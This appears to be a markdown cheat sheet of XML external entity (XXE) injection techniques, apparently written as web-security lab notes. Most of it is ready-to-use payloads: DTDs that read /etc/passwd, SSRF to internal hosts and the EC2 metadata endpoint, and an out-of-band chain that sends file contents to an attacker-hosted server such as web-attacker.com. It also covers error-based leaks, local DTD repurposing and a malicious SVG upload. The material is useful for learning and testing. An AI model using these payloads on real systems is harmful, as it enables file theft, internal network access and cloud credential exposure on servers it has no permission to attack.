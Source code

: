 # XML external entity injection
## File read
To exploit XXE we need to:
* Create or change DOCTYPE that defines external entity
* Edit a data which is returned back in app's response in order to use defined entity
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
Change it to:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
We define external entity `xxe` which contains /etc/passwd file and then pass this entity into application response  

## XXE to SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
We can try to access EC2 metadata endpoint with this attack (http://169.254.169.254/latest/meta-data/)

## Blind XXE
We can use XInclude when we don't contol entire XML document and can't create or modify DOCTYPE entity
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### Input validation bypass
One way of bypassing input restriction is using xml parameter entities. Such entities could be mentioned only inside of DTD (doctype).
Syntax:
```
<!ENTITY % myparameterentity "my parameter entity value" >
```
Here we declare `myparameterentity` with some value and then we can mention it like this:
```
%myparameterentity;
```
Example of attack with XML parameter entity:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### OAST XXE data exfiltration
To exploit blind XXE, attacker must host some webserver and upload on it malicious XXE entity:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
 This DTD carries out the following steps:

* Defines an XML parameter entity called `file`, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
* Uses the `eval` entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
* Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

This file with malicious entities attacker must host on some url such as
```
http://web-attacker.com/malicious.dtd
```
And finalyy attacker must send XXE payload to a target:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### EXfiltrating data via errors 
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
This malicious DTD must be placed on webserver controlled by hacker. Attack scenario is same as in previous section.
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ab800b5040218e6807fd99d013300dd.exploit-server.net/exploit"> %xxe;]>
```

In such case we can get contents of existing file (/etc/passwd) from error which arises because of requesting unexisting file  
In such case error will look like:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Repurposing a local DTD
We can redefine some entity in .dtd file on local system and receive error-based output of interesting file
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Here we are referring to docbookx.dtd file and redefine ISOamso entity



## XXE via file upload
We can upload malicious SVG or DOC file containing XXE.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content-type
We can modify content-type of POST requests in order to put some XML request in palce of original
For example we can change this:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
To this:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If application tolerates such input and parsews it, we possibly could be able to access hidden XXE attack.

